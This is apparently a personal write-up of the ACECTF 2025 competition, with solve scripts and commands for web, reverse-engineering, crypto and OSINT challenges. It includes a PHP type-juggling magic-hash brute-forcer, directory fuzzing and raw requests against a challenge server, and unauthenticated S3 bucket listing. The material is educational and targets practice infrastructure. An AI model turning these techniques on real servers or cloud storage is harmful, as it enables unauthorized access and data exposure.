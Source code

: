 ```yaml
---
title: "ACECTF"
date: 2025-02-27
draft: false
description: "Acectf"
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">

<h2>🏆 185/661 -- 2200 points</h2>

| <span class="text-primary-400">**Challenge**</span> | <span class="text-primary-400">**Category**</span> | <span class="text-primary-400">**Value**</span> | <span class="text-primary-400">**Time**</span> |
| --- | --- | --- | --- |
| The Chemistry Of Code | Reverse | 200 | February 27th, 7:37:22 PM |
| Flag-Fetcher | Web Exploitation | 200 | February 27th, 7:13:35 PM |
| Buried Deep | Web Exploitation | 100 | February 27th, 7:09:12 PM |
| Custom Encoding Scheme | Cryptography | 200 | February 27th, 5:46:28 PM |
| Super Secure Encryption | Cryptography | 100 | February 27th, 3:38:49 PM |
| The Mysterious Building | OSINT | 300 | February 27th, 12:33:52 PM |
| Fall of 2022 | OSINT | 100 | February 27th, 11:45:02 AM |
| Significance of Reversing | Reverse | 200 | February 27th, 11:35:15 AM |
| Bucket List | Web Exploitation | 300 | February 27th, 11:06:05 AM |
| Token of Trust | Web Exploitation | 200 | February 27th, 10:47:37 AM |
| Webrypto | Web Exploitation | 200 | February 27th, 10:10:24 AM |


## <span class="text-primary-400">Writeup </span>/ <span class="text-primary-400">Notes</span>

---

### Web 

#### Webcrypto

<details>

```php
<?php
include('flag.php');
highlight_file(__FILE__);

// Check if parameters 'tom' and 'jerry' are not equal
if ($_GET['tom'] != $_GET['jerry']) {
    echo "<br>Parameter 1 Met!<br>";

        if (md5('ACECTF' . $_GET['tom']) == md5('ACECTF' . $_GET['jerry'])) {
        echo $FLAG;  // If the condition is true, print the flag
    }
}
?>
```

We have to find 2 magic hashes (`starting with 0e or 00e`) that have the structure:

```SH
md5('ACECTF'+'RANDOM_1') == md5('ACECTF'+'RANDOM_2')
RANDOM_1 != RANDOM_2
```

I quickly asked claude to generate me a python script that does it *fast*:

<details>

```py
import hashlib
import string
import time
import itertools
import re
import multiprocessing as mp
from tqdm import tqdm

def md5_hash(input_str):
    """Calculate MD5 hash of a string"""
    return hashlib.md5(input_str.encode('utf-8')).hexdigest()

def is_magic_hash(hash_str):
    """Check if a hash starts with '0e' or multiple zeros followed by 'e', then all digits"""
    return bool(re.match(r'^0+e\d+$', hash_str))

def find_magic_hashes(prefix, max_length=5, num_required=2):
    """Find strings that produce magic hashes when appended to the prefix"""
    results = []
    total_attempts = 0
    charset = string.ascii_letters + string.digits
    start_time = time.time()

    print(f"Searching for magic hashes with prefix '{prefix}'...")

    # Process characters in batches for each length
    for length in range(1, max_length + 1):
        if len(results) >= num_required:
            break

        print(f"Trying length {length}...")

        # Generate all possible combinations for this length
        for chars in tqdm(itertools.product(charset, repeat=length),
                          total=len(charset)**length,
                          desc=f"Length {length}",
                          unit="comb"):
            suffix = ''.join(chars)
            test_str = prefix + suffix
            hash_result = md5_hash(test_str)
            total_attempts += 1

            if is_magic_hash(hash_result):
                results.append((test_str, hash_result))
                print(f"\nFound magic hash #{len(results)}: {test_str} -> {hash_result}")

                if len(results) >= num_required:
                    break

        # Show progress after each length
        elapsed = time.time() - start_time
        rate = total_attempts / elapsed if elapsed > 0 else 0
        print(f"Progress: {total_attempts:,} attempts in {elapsed:.2f} seconds ({rate:.1f} hashes/sec)")

    # Show summary
    elapsed = time.time() - start_time
    print(f"\nSearch completed!")
    print(f"Total attempts: {total_attempts:,}")
    print(f"Total time: {elapsed:.2f} seconds")
    print(f"Average speed: {total_attempts / elapsed:.1f} hashes/sec")

    if results:
        print("\nFound magic hashes:")
        for i, (input_str, hash_str) in enumerate(results, 1):
            print(f"{i}. Input: {input_str}")
            print(f"   Hash: {hash_str}")

        if len(results) >= 2:
            print("\nDemonstrating PHP type juggling with these hashes:")
            print("In PHP, these would be considered equal with loose comparison (==)")
            print(f"'{results[0][1]}' == '{results[1][1]}' would return true")
    else:
        print("\nNo magic hashes found. Try increasing max_length.")

    return results

def process_chunk(args):
    """Process a chunk of combinations for parallel execution"""
    prefix, charset, length, chunk_start, chunk_size = args
    results = []
    total = 0

    # Get the specific combinations for this chunk
    combinations = itertools.islice(itertools.product(charset, repeat=length),
                                   chunk_start, chunk_start + chunk_size)

    for chars in combinations:
        suffix = ''.join(chars)
        test_str = prefix + suffix
        hash_result = md5_hash(test_str)
        total += 1

        if is_magic_hash(hash_result):
            results.append((test_str, hash_result))

    return results, total

def find_magic_hashes_parallel(prefix, max_length=5, num_required=2, num_processes=None):
    """Find magic hashes using parallel processing"""
    if num_processes is None:
        num_processes = mp.cpu_count()

    results = []
    total_attempts = 0
    charset = string.ascii_letters + string.digits
    start_time = time.time()

    print(f"Searching for magic hashes with prefix '{prefix}' using {num_processes} processes...")

    for length in range(1, max_length + 1):
        if len(results) >= num_required:
            break

        print(f"Trying length {length}...")

        # Calculate total combinations for this length
        total_combinations = len(charset) ** length

        # Divide work into chunks
        chunk_size = max(1000, total_combinations // (num_processes * 10))
        num_chunks = (total_combinations + chunk_size - 1) // chunk_size

        # Prepare arguments for each chunk
        args_list = [
            (prefix, charset, length, i * chunk_size, min(chunk_size, total_combinations - i * chunk_size))
            for i in range(num_chunks)
        ]

        # Process chunks in parallel
        with mp.Pool(processes=num_processes) as pool:
            with tqdm(total=total_combinations, desc=f"Length {length}", unit="comb") as pbar:
                for chunk_results, chunk_attempts in pool.imap_unordered(process_chunk, args_list):
                    total_attempts += chunk_attempts
                    pbar.update(chunk_attempts)

                    if chunk_results:
                        results.extend(chunk_results)
                        print(f"\nFound magic hash #{len(results)}: {chunk_results[0][0]} -> {chunk_results[0][1]}")

                    if len(results) >= num_required:
                        pool.terminate()
                        break

        # Show progress after each length
        elapsed = time.time() - start_time
        rate = total_attempts / elapsed if elapsed > 0 else 0
        print(f"Progress: {total_attempts:,} attempts in {elapsed:.2f} seconds ({rate:.1f} hashes/sec)")

        if len(results) >= num_required:
            break

    # Show summary
    elapsed = time.time() - start_time
    print(f"\nSearch completed!")
    print(f"Total attempts: {total_attempts:,}")
    print(f"Total time: {elapsed:.2f} seconds")
    print(f"Average speed: {total_attempts / elapsed:.1f} hashes/sec")

    if results:
        print("\nFound magic hashes:")
        for i, (input_str, hash_str) in enumerate(results, 1):
            print(f"{i}. Input: {input_str}")
            print(f"   Hash: {hash_str}")

        if len(results) >= 2:
            print("\nDemonstrating PHP type juggling with these hashes:")
            print("In PHP, these would be considered equal with loose comparison (==)")
            print(f"'{results[0][1]}' == '{results[1][1]}' would return true")
    else:
        print("\nNo magic hashes found. Try increasing max_length.")

    return results

if __name__ == "__main__":
    prefix = "ACECTF"
    # Choose between single-threaded or parallel version
    # For shorter combinations, single-threaded might be faster due to overhead
    # For longer combinations, parallel will be significantly faster

    # Uncomment only one of these:
    # results = find_magic_hashes(prefix, max_length=5, num_required=2)
    results = find_magic_hashes_parallel(prefix, max_length=5, num_required=2)
```
</details>

It gave me `mP6Ra` `QHUsg` and the flag after using these for `?tom=mP6Ra&jerry=QHUsg` `ACECTF{70m_4nd_j3rry_4r3_4ll135}`

</details>




#### Token of Trust
<details>

```
Welcome to the main page!
To log in, visit /login. But remember, POST requests are my love language. 🧡

PS: Don't forget to set your headers for JSON, or I'll just ignore you. 🙃
```

> POST requests are my love language

> Set your headers for JSON

```JSON
# /login
Oops! Wrong approach.
You can't just waltz in here without a proper POST request.

Try sending a JSON payload like this: {"user":"ace","pass":"ctf"}.

Hint: I only care about your request format, not your credentials. 😉
```

> `{"user":"ace","pass":"ctf"}`

> I only care about your request format, not your credentials

```HTTP
POST /login HTTP/1.1
Host: 34.131.133.224:9999
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Connection: keep-alive
Content-Type: application/json
Content-Length: 27

{"user":"ace","pass":"ctf"}
```

```HTTP
HTTP/1.1 200 OK
X-Powered-By: Express

{
    "token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"
}
```

```JSON
Headers = {
  "alg": "HS256",
  "typ": "JWT"
}

Payload = {
  "user": "guest"
}

Signature = "JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"
```

```BASH
❯ ffuf -u http://34.131.133.224:9999/FUZZ -w /usr/share/seclists/bbFuzzing/top.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://34.131.133.224:9999/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/bbFuzzing/top.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

robots.txt              [Status: 200, Size: 56, Words: 9, Lines: 1, Duration: 268ms]
:: Progress: [1423/1423] :: Job [1/1] :: 147 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

```
Disallow: /flag (But hey, who listens to robots anyway?)
```

```
POST /flag HTTP/1.1
Host: 34.131.133.224:9999
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko)
Connection: keep-alive
Content-Type: application/json
Content-Length: 115

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}
```

`Sorry, you're not the admin. No flag for you! 😝`

{{< figure src="/images/ctfs/ACECTF/token_of_trust.png" alt="solution">}}

</details>


#### Bucket List
<details>

> [This](https://www.intigriti.com/researchers/blog/hacking-tools/hacking-misconfigured-aws-s3-buckets-a-complete-guide) link from integriti actually helped me a lot since I never actually attacked S3 Buckets before.

{{< figure src="/images/ctfs/ACECTF/s3_bucket.png" alt="solution">}}

Enumerating the bucket for misconfigured permissions:

```BASH
❯ aws s3 ls s3://opening-account-acectf --no-sign-request
                           PRE cry-for-me/
                           PRE fun/
                           PRE l33t-h4x0r/
                           PRE not-the-galf/
                           PRE open-hearts/
                           PRE opening-night/
                           PRE sao-paulo/
                           PRE wake-me-up/
```

Just some more nice cat images:

```
❯ aws s3 ls s3://opening-account-acectf/cry-for-me/bucket/ --no-sign-request
2025-02-21 16:53:21        112 001.png
2025-02-21 16:53:21       4667 008.jpeg
2025-02-21 16:53:21       5514 020.jpeg
2025-02-21 16:53:21        425 025.png
2025-02-21 16:53:22       5736 081.jpeg
```

{{< highlight sh "linenos=true,hl_lines=7" >}}
❯ aws s3 ls s3://opening-account-acectf/cry-for-me/acectf/ --no-sign-request
2025-02-21 16:53:00       5033 002.jpeg
2025-02-21 16:53:00        346 042.png
2025-02-21 16:53:01        785 046.png
2025-02-21 16:53:01        218 049.png
2025-02-21 16:53:01       1880 057.png
2025-02-21 17:03:50         44 secret.txt
{{< /highlight >}}

The secret held a base64 string which was simply the flag:

```
❯ echo QUNFQ1RGezdoM180dzVfMTVfbTE1YzBuZjE2dXIzZH0= | base64 -d
```

`ACECTF{7h3_4w5_15_m15c0nf16ur3d}`

</details>

#### Buried Deep
<details>

After running content discovery via Burpsuite we find the first part of the flag:

{{< figure src="/images/ctfs/ACECTF/burried.png" alt="PDF Stream">}}

`ACECTF{1nf1l7r471ng_7h3_5y573m_`

In the `secret_path` endpoint we convert the morse code to UTF8:
`15_345y_wh3n_y0u_kn0w_wh3r3_`

And lastly on `style.css` we convert from `ROT`
`7h3_53cr3t5_4r3_bur13d}`

`ACECTF{1nf1l7r471ng_7h3_5y573m_15_345y_wh3n_y0u_kn0w_wh3r3_7h3_53cr3t5_4r3_bur13d}`

</details>

#### Flag Fetcher
<details>

Checking the JS fetching code we can find the flag within the array
```JS
const i = Pc(),
    s = [
      "/a",
      "/c",
      "/e",
    ...
```

`ACECTF{r3d1r3ct10n}`
</details>

---

### Reverse
#### Significance of Reversing
<details>

We got a `.png` file which in the hex editor did not reveal any interesting information straight away. When inspecting the strings of the file, we can see that all the strings are litteraly "reversed".

```
~/Downloads
❯ strings Reverseme.png
tnemmoc.
ssb.
atad.
tlp.tog.
cimanyd.
yarra_inif.
yarra_tini.
...
```

Also when inspecting the end of the file in the hex editor we can see `...FLE.`. When "reversing" we can see that this spells `ELF` which is an executable file in linux. So seemingly we have to just reverse this whole `png` file and we will receive an `ELF` executable. I asked claude to quickly generate a python script that does this.

```PYTHOn
def reverse_bytes(input_path, output_path):
    """
    Reverses the order of bytes in a file

    Args:
        input_path (str): Path to the input file
        output_path (str): Path for the output file
    """
    # Read the input file in binary mode
    with open(input_path, 'rb') as input_file:
        data = input_file.read()

    # Reverse the bytes
    reversed_data = data[::-1]

    # Write the reversed data to the output file
    with open(output_path, 'wb') as output_file:
        output_file.write(reversed_data)

    print(f"File reversed and saved to {output_path}")

reverse_bytes('Reverseme.png', 'reversed')
```

```BASH
~/Downloads [🐍 v3.13.1]
❯ chmod +x reverse

~/Downloads [🐍 v3.13.1]
❯ ./reverse
```

`ACECTF{w3_74lk_4b0u7_r3v3r53}`

</details>

#### The Chemistry
<details>

When checking the main file we can see the following interesting params:

```RUST
const FERROUS_OXIDE_USERNAME: &str = "AdminFeroxide";
const ANIONIC_PASSWORD: &str = "NjQzMzcyNzUzNTM3MzE2Njc5MzE2ZTM2";
const ALKALINE_SECRET: &str = "4143454354467B34707072336E373163335F3634322C28010D3461302C392E";
```

When checking the code further it asks for a username and password, where the username can already be seen in the above values. The password was encoded uses base64, so we can just decode it to `643372753537316679316e36`. This looks like ASCII values so lets convert it into a string `d3ru571fy1n6`.

With this we can run the program and it will automatically extract the flag `ACECTF{4ppr3n71c3_w4l73r_wh1t3}`.

```RUST
fn reaction_chamber() {
    ionic_bond("AdminFeroxide", "d3ru571fy1n6");
}
```

</details>

---


### Crypto
#### Super Secure Encryption

<details>

We get 2 seperate text messages 1 beeing the encrypted flag and one being a "test" message. Since the test message was also encrypted using the same `k`, we can simply `XOR` the contents with the encrypted cyphertext and retreive the original `k`. We can then use use `k` to decrypt the actual flag.

<details>

```PY
import binascii

# Known plaintext and ciphertexts
plaintext = b"This is just a test message and can totally be ignored."
test_ciphertext = "d71f4a2fd1f9362c21ad33c7735251d0a671185a1b90ecba27713d350611eb8179ec67ca7052aa8bad60466b83041e6c02dbfee738c2a3"
flag_ciphertext = "c234661fa5d63e627bef28823d052e95f65d59491580edfa1927364a5017be9445fa39986859a3"

# Convert to bytes
test_cipher_bytes = bytes.fromhex(test_ciphertext)
flag_cipher_bytes = bytes.fromhex(flag_ciphertext)

# Extract keystream: keystream = ciphertext XOR plaintext
keystream = b""
for i in range(len(plaintext)):
    keystream += bytes([test_cipher_bytes[i] ^ plaintext[i]])

# Decrypt flag using keystream
flag = b""
for i in range(len(flag_cipher_bytes)):
    flag += bytes([flag_cipher_bytes[i] ^ keystream[i]])

print("Recovered flag:", flag.decode())
```

</details>

`ACECTF{n07h1n6_15_53cur3_1n_7h15_w0rld}`
</details>

#### Custom Encoding Scheme
<details>

```PYTHON
def encode(message, key):
    valid_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

    to_solve = []

    if key is not None and len(key) != 168:
        raise ValueError("Invalid Input")

    # Go in chunks of 4 for the whole key
    # Key is 128 so we have 32 chunks of 4
    if key is not None:
        key_chunks = [key[i:i + 4] for i in range(0, len(key), 4)]

    for index, m in enumerate(message):
        bin_value_of_order_m = f"{ord(m):08b}"

        if index < 42 and key is not None:
            bits_0_to_6 = bin_value_of_order_m[:6]
            bits_6_to_8 = bin_value_of_order_m[6:] + key_chunks[index]

            int_bits_0_to_6 = int(bits_0_to_6, 2)
            int_bits_6_to_8 = int(bits_6_to_8, 2)

            encoding_via_bit_sites = valid_chars[int_bits_0_to_6] + valid_chars[int_bits_6_to_8]
        else:
            bits_0_to_6 = bin_value_of_order_m[:6]
            bits_6_to_8 = bin_value_of_order_m[6:]

            int_bits_0_to_6 = int(bits_0_to_6, 2)
            int_bits_6_to_8 = int(bits_6_to_8, 2)

            encoding_via_bit_sites = valid_chars[int_bits_0_to_6] + valid_chars[int_bits_6_to_8]

        to_solve.append(encoding_via_bit_sites)
    return to_solve

m = "I TOLD YOU THAT BASE64 DECODING IS NO GOOD"
k = "000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000"
key_chunks = [k[i:i + 4] for i in range(0, len(k), 4)]

enc_flag = []
with open("output.txt", "r") as f:
    for line in f:
        enc_flag.append(line.strip())

to_solve = encode(message=m, key=k)

print("What it is:\t\t\t", to_solve)
print("What it should be:\t", enc_flag)
print("Key chunks:\t\t\t", key_chunks)

encoding_key = []
for index, chunk in enumerate(key_chunks):
    for i in range(0, 16):
        key_chunks[index] = f"{i:04b}"
        result = encode(m, "".join(key_chunks))
        if result[index] == enc_flag[index]:
            print(f"\nKey for chunk {index} is {i:04b}")
            encoding_key.append(f"{i:04b}")
            continue

    print("\nCurrent Key:", encoding_key)

print("Final key:", "".join(encoding_key))

flag = ""
binary_string = ''.join(encoding_key)

for i in range(0, len(binary_string), 8):
    byte = binary_string[i:i+8]
    flag += chr(int(byte, 2))

print(flag)
```

`ACECTF{7h47_w45_c00l}`
</details>


---

### OSINT
#### Fall of 2022
<details>

When reading the challange, this got my attention: `[..] It seemed like the perfect time to relax and check my phone for her txts.` Since it was an OSINT challange I was pretty sure that this was reffering to DNS `TXT` records so I quickly checked via `https://dnsdumpster.com/` and indeed there was the flag `"ACECTF{y0u_g07_7h3_73x7}"`.

</details>

#### The Mysterious Building
<details>

When inserting the image in Google reverse image search we can find that the tower shown links to an Wikipedia [article](https://de.wikipedia.org/wiki/Fernsehturm_Pitampura#/media/Datei:Pitampura_TV_Tower,_Delhi,_India.jpg). From the surroundings of our image we can also assume that this correlates with the country of `India`.

When checking the possible locations on the map, we can see that only 2 the left and bottom locations are possible standingpoints.

{{< figure src="/images/ctfs/ACECTF/map.png" alt="Map">}}

After checking both the bottom one seemed promissing and I just jumped into streetview where I was placed directly at the location from the Image.

{{< figure src="/images/ctfs/ACECTF/mistery_building.png" alt="Location">}}

{{< figure src="/images/ctfs/ACECTF/pp_trade.png" alt="Solution">}}

`ACECTF{pp_trade_center}`

</details>



